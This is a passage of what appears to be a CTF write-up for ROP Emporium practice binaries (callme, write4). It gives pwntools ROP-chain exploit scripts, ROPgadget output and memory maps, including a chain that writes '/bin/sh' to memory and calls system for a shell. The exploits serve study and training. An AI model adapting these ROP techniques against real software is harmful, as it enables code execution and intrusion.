 ## callme64

```python
from pwn import *

p = process("./callme")
callme_one_plt_address = 0x0000000000401850
callme_two_plt_address = 0x0000000000401870
callme_thress_plt_address = 0x0000000000401810
pop_pop_pop_ret_address = 0x0000000000401ab0
payload = flat(["A"*(0x20+8), pop_pop_pop_ret_address, 1, 2, 3, callme_one_plt_address, pop_pop_pop_ret_address, 1, 2, 3, callme_two_plt_address, pop_pop_pop_ret_address, 1, 2, 3, callme_thress_plt_address], word_size=64)
p.sendline(payload)
p.interactive()
```

# 0x04 write4

This challenge doesn't give us useful string, we have to write it in memory ourselves. I attempted to call fgets@plt to construct an arbitrary write primitive, but the third argument stream is hard to fake. So I should search some gadgets like `mov [reg], reg` by using ROPgadget：

```shell
$ ROPgadget --binary write432 --only "mov|pop|ret"
Gadgets information
============================================================
0x08048670 : mov dword ptr [edi], ebp ; ret
0x080486da : pop edi ; pop ebp ; ret

$ ROPgadget --binary write4 --only "mov|pop|ret"
Gadgets information
============================================================
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400893 : pop rdi ; ret
```

By the way, the destination to write is a stable and writable address in memory, vmmap may help you:

```shell
gdb-peda$ vmmap 
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/larry/rop/write4/write4
0x00600000         0x00601000         r--p	/home/larry/rop/write4/write4
0x00601000         0x00602000         rw-p	/home/larry/rop/write4/write4
```

## write432

```python
from pwn import *

p = process("./write432")
pop_pop_ret_address = 0x080486da
mov_ret_address = 0x08048670
write_start_address = 0x804a0f0
system_plt_address = 0x08048430
payload = flat(["A"*(0x28+4), pop_pop_ret_address, write_start_address, "/bin", mov_ret_address, pop_pop_ret_address, write_start_address+4, "/sh\x00", mov_ret_address, system_plt_address, "B"*4, write_start_address])
p.sendline(payload)
p.interactive()
```